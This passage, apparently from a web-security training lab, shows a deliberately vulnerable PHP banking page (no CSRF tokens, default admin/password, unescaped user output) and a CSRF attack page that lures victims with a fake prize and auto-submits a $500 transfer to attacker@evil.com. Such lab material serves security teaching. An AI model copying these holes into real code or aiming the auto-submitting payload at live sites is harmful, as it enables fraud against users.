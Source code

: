 ```php
                Username: <input name="username" type="text" value="admin">
                Password: <input name="password" type="password" value="password">
                <input type="submit" value="Login">
              </form>';
        exit;
    }
}

// Vulnerable money transfer (no CSRF protection)
if (isset($_POST['transfer'])) {
    $amount = (int)$_POST['amount'];
    $recipient = $_POST['recipient'];
    
    if ($amount > 0 && $amount <= $_SESSION['balance']) {
        $_SESSION['balance'] -= $amount;
        echo "<div style='color: red;'>Transferred $$amount to $recipient</div>";
        echo "<div>Remaining balance: $" . $_SESSION['balance'] . "</div>";
    } else {
        echo "<div style='color: red;'>Invalid transfer amount</div>";
    }
}

// Display transfer form
echo "<h2>Welcome, " . $_SESSION['username'] . "</h2>";
echo "<p>Current balance: $" . $_SESSION['balance'] . "</p>";
echo '<form method="POST">
        <h3>Transfer Money</h3>
        Amount: <input name="amount" type="number" min="1" max="' . $_SESSION['balance'] . '">
        Recipient: <input name="recipient" type="text" placeholder="recipient@email.com">
        <input type="hidden" name="transfer" value="1">
        <input type="submit" value="Transfer">
      </form>';
?>
```

### 2. 🔬 Intermediate Labs

#### CSRF Attack Page Template
```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Attack Demo</title>
</head>
<body>
    <h1>You've won a prize! Claiming your reward...</h1>
    
    <!-- CSRF attack form -->
    <form id="csrf-attack" action="http://localhost/vulnerable-csrf-lab.php" method="POST">
        <input type="hidden" name="amount" value="500">
        <input type="hidden" name="recipient" value="attacker@evil.com">
        <input type="hidden" name="transfer" value="1">
    </form>
    
    <script>
        // Auto-submit after 2 seconds
        setTimeout(function() {
            document.getElementById('csrf-attack').submit();
        }, 2000);
    </script>
    
    <p>Please wait while we process your reward...</p>
</body>
```